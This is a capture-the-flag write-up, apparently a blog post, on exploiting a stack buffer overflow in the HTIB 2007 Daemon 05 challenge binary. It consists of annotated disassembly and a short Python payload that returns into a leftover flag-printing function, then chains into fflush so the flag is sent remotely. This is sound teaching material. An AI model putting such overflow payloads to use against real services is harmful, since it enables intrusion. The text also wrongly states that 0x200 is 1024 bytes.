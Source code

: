 ```yaml
---
title: Exploiting HTIB 2007 Kuala Lumpur CTF Daemon 05
author: lamer
excerpt: |
  |
    Daemon 05 has a simple buffer overflow error. Exploiting it by returning to a conveniently-left-behind function (an easter egg, I say).
layout: post
tweetcount:
  - 0
tweetbackscheck:
  - 1408359076
shorturls:
  - 'a:4:{s:9:"permalink";s:82:"http://www.vnsecurity.net/2007/09/exploiting-htib-2007-kuala-lumpur-ctf-daemon-05/";s:7:"tinyurl";s:26:"http://tinyurl.com/ydkcuga";s:4:"isgd";s:18:"http://is.gd/aOubC";s:5:"bitly";s:0:"";}'
twittercomments:
  - 'a:0:{}'
category:
  - 'CTF - CLGT Crew'
---
```

## Identify `main`

Like the previous blog post, let&#8217;s start with the `start` function.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;080488B0                 public start
&lt;b&gt;.text:&lt;/b&gt;080488B0 start           proc near
&lt;b&gt;.text:&lt;/b&gt;080488B0                 &lt;b&gt;xor&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B2                 &lt;b&gt;pop&lt;/b&gt;     &lt;b&gt;esi&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B3                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ecx&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B5                 &lt;b&gt;and&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 0FFFFFFF0h
&lt;b&gt;.text:&lt;/b&gt;080488B8                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488B9                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488BA                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;edx&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488BB                 &lt;b&gt;push&lt;/b&gt;    offset sub_804C650
&lt;b&gt;.text:&lt;/b&gt;080488C0                 &lt;b&gt;push&lt;/b&gt;    offset sub_804C5F0
&lt;b&gt;.text:&lt;/b&gt;080488C5                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ecx&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488C6                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;esi&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;080488C7                 &lt;b&gt;push&lt;/b&gt;    offset main
&lt;b&gt;.text:&lt;/b&gt;080488CC                 &lt;b&gt;call&lt;/b&gt;    ___libc_start_main
</pre>

We identify the `main` function as the last argument to `___libc_start_main`. So let&#8217;s get to it.

## Analyze `main`

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048ABE main            proc near               ; DATA XREF: start+17&uarr;o
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_518         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;518h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_514         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;514h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_510         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;510h
&lt;b&gt;.text:&lt;/b&gt;08048ABE var_208         &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;208h
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABF                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AC1                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 518h       ; char *
&lt;b&gt;.text:&lt;/b&gt;08048AC7                 &lt;b&gt;and&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 0FFFFFFF0h
&lt;b&gt;.text:&lt;/b&gt;08048ACA                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048ACF                 &lt;b&gt;add&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0Fh
&lt;b&gt;.text:&lt;/b&gt;08048AD2                 &lt;b&gt;add&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0Fh
&lt;b&gt;.text:&lt;/b&gt;08048AD5                 &lt;b&gt;shr&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 4
&lt;b&gt;.text:&lt;/b&gt;08048AD8                 &lt;b&gt;shl&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 4
&lt;b&gt;.text:&lt;/b&gt;08048ADB                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ADD                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, offset aCodedByXwings_ ; &quot;Coded By xWinGs. a code just to make yo&quot;...
&lt;b&gt;.text:&lt;/b&gt;08048AE4                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AE9                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, offset aSecretCode ; &quot;Secret Code: &quot;
&lt;b&gt;.text:&lt;/b&gt;08048AF0                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AF5                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;stdout
&lt;b&gt;.text:&lt;/b&gt;08048AFA                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AFD                 &lt;b&gt;call&lt;/b&gt;    _fflush
&lt;b&gt;.text:&lt;/b&gt;08048B02                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_510&lt;b&gt;]&lt;/b&gt;, 200h
&lt;b&gt;.text:&lt;/b&gt;08048B0A                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;var_208&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B10                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_514&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B14                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048B1B                 &lt;b&gt;call&lt;/b&gt;    _read
&lt;b&gt;.text:&lt;/b&gt;08048B20                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;dword_80529DC, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B25                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_510&lt;b&gt;]&lt;/b&gt;, offset aEtcFlagsDaemon ; &quot;/etc/flags/daemon05.txt&quot;
&lt;b&gt;.text:&lt;/b&gt;08048B2D                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;dword_80529DC
&lt;b&gt;.text:&lt;/b&gt;08048B32                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_514&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B36                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;var_208&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B3C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;var_518&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B3F                 &lt;b&gt;call&lt;/b&gt;    sub_80489F4
</pre>

First, a few calls to `printf` to advertise this is from xWinGs. Nothing fancy yet. Then a `read` of 0&#215;200 (1024) bytes to `var_208`. So, let&#8217;s rename `var_208` to `input_buffer`. And also note that `input_buffer` is the first item on the stack. After `input_buffer` there comes the frame pointer and a return address.

With the same reasoning as in the previous post, we also rename `var_518` to `first_arg`, `var_514` to `second_arg`, and `var_510` to `third_arg`.

After the `read` is a check for score server packet. We&#8217;ll skip it. And here comes the juicy part.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048B44                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;ds&lt;/b&gt;&lt;b&gt;:&lt;/b&gt;stdin
&lt;b&gt;.text:&lt;/b&gt;08048B49                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;third_arg&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B4D                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;second_arg&lt;b&gt;]&lt;/b&gt;, 300h
&lt;b&gt;.text:&lt;/b&gt;08048B55                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;input_buffer&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B5B                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;first_arg&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B5E                 &lt;b&gt;call&lt;/b&gt;    _fgets
&lt;b&gt;.text:&lt;/b&gt;08048B63                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;518h&lt;b&gt;+&lt;/b&gt;first_arg&lt;b&gt;]&lt;/b&gt;, offset aWrongCode_ ; &quot;Wrong Code.n&quot;
&lt;b&gt;.text:&lt;/b&gt;08048B6A                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048B6F                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048B74                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B75                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048B75 main            endp
</pre>

The next call is to `fgets` to read another, uhm, 0&#215;300 bytes to `input_buffer`. And this is where overflow occurs. Remember that `input_buffer` is only 1024 byte long, and after it is the frame pointer and return address. So by overflowing `input_buffer` we are able to control the return address.

Ok, that&#8217;s all fine, but where do we want `main` to return to? A little digging around reveals this piece of unidentified code.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">&lt;b&gt;.text:&lt;/b&gt;08048A60 locret_8048A60&lt;b&gt;:&lt;/b&gt;                         ; CODE XREF: sub_80489F4+29&uarr;j
&lt;b&gt;.text:&lt;/b&gt;08048A60                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A61                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A61 sub_80489F4     endp
&lt;b&gt;.text:&lt;/b&gt;08048A61
&lt;b&gt;.text:&lt;/b&gt;08048A62 ; ---------------------------------------------------------------------------
&lt;b&gt;.text:&lt;/b&gt;08048A62                 &lt;b&gt;push&lt;/b&gt;    &lt;b&gt;ebp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A63                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;ebp&lt;/b&gt;, &lt;b&gt;esp&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A65                 &lt;b&gt;sub&lt;/b&gt;     &lt;b&gt;esp&lt;/b&gt;, 48h
&lt;b&gt;.text:&lt;/b&gt;08048A68                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;, offset aR ; &quot;r&quot;
&lt;b&gt;.text:&lt;/b&gt;08048A70                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, offset aEtcFlagsDaemon ; &quot;/etc/flags/daemon05.txt&quot;
&lt;b&gt;.text:&lt;/b&gt;08048A77                 &lt;b&gt;call&lt;/b&gt;    _fopen
&lt;b&gt;.text:&lt;/b&gt;08048A7C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A7F                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A82                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;8&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A86                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;, 20h
&lt;b&gt;.text:&lt;/b&gt;08048A8E                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;38h&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A91                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A94                 &lt;b&gt;call&lt;/b&gt;    _fgets
&lt;b&gt;.text:&lt;/b&gt;08048A99                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;0Ch&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A9C                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048A9F                 &lt;b&gt;call&lt;/b&gt;    _fclose
&lt;b&gt;.text:&lt;/b&gt;08048AA4                 &lt;b&gt;lea&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, &lt;b&gt;[&lt;/b&gt;&lt;b&gt;ebp&lt;/b&gt;&lt;b&gt;-&lt;/b&gt;38h&lt;b&gt;]&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AA7                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;+&lt;/b&gt;4&lt;b&gt;]&lt;/b&gt;,;;; &lt;b&gt;eax&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048AAB                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;[&lt;/b&gt;&lt;b&gt;esp&lt;/b&gt;&lt;b&gt;]&lt;/b&gt;, offset &lt;b&gt;aS&lt;/b&gt; ; &quot;n%s&quot;
&lt;b&gt;.text:&lt;/b&gt;08048AB2                 &lt;b&gt;call&lt;/b&gt;    _printf
&lt;b&gt;.text:&lt;/b&gt;08048AB7                 &lt;b&gt;mov&lt;/b&gt;     &lt;b&gt;eax&lt;/b&gt;, 0
&lt;b&gt;.text:&lt;/b&gt;08048ABC                 &lt;b&gt;leave&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABD                 &lt;b&gt;retn&lt;/b&gt;
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE ; ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦ S U B R O U T I N E ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE ; Attributes: bp-based frame
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE main            proc near               ; DATA XREF: start+17&uarr;o
&lt;b&gt;.text:&lt;/b&gt;08048ABE
&lt;b&gt;.text:&lt;/b&gt;08048ABE first_arg       &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;518h
&lt;b&gt;.text:&lt;/b&gt;08048ABE second_arg      &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;514h
&lt;b&gt;.text:&lt;/b&gt;08048ABE third_arg       &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;510h
&lt;b&gt;.text:&lt;/b&gt;08048ABE input_buffer    &lt;b&gt;=&lt;/b&gt; &lt;b&gt;dword&lt;/b&gt; &lt;b&gt;ptr&lt;/b&gt; &lt;b&gt;-&lt;/b&gt;208h
</pre>

Look at `08048A62`! It&#8217;s a function prologue. And indeed from `08048A62` to `08048ABD` is a proper function! What great is that it opens, reads, and prints the flag out! This is so convenient!

## Exploit it

Now, let&#8217;s gather what we&#8217;ve have. We can control where main returns to, and we know there&#8217;s a function that suits our purpose. Therefore, the challenge is&#8230; none. We just return to this function!

With that tactic, our exploit is as trivial as constructing a buffer containing all `08048A62`. And how hard could it be? Two lines of Python code!

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">import struct
buffer = struct.pack("I", 0x08048A62) * 1000
</pre>

## Remotely exploit it

If you tried out the buffer above, you might find that it didn&#8217;t work remotely. This is because the easter-egg function uses `printf` to print out the flag. It is common knowledge that `printf` buffers its content. If the output stream is connected to a console window, the buffering is line-based, otherwise it is block-based. In our case, the output stream is connected to a socket, so the buffering is block-based. Usually, this block is 8 KBytes. Each call to the easter-egg only prints out about 20 bytes. So, to fill this buffer, we will need at least 409 calls to the easter-egg function, or we need to put in 409 * 4 = 0&#215;664 bytes. However, only 0&#215;300 bytes are read in. So this approach fails.

Another approach is to flush the stream after `printf`. Luckily, this is doable by returning to `08048AF5`. At that address, there is a call to `fflush` on `stdout`. Again, we only use existing code.

In summary, in order to exploit daemon05 remotely, we will have to change our buffer to look like:

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">buffer = struct.pack("I", 0x08048A62) * 300 + "xF5x8Ax04x08" + "x0A"
</pre>

## Observation

Well, what should I say? Thank you, xWinGs, for this twisted fun!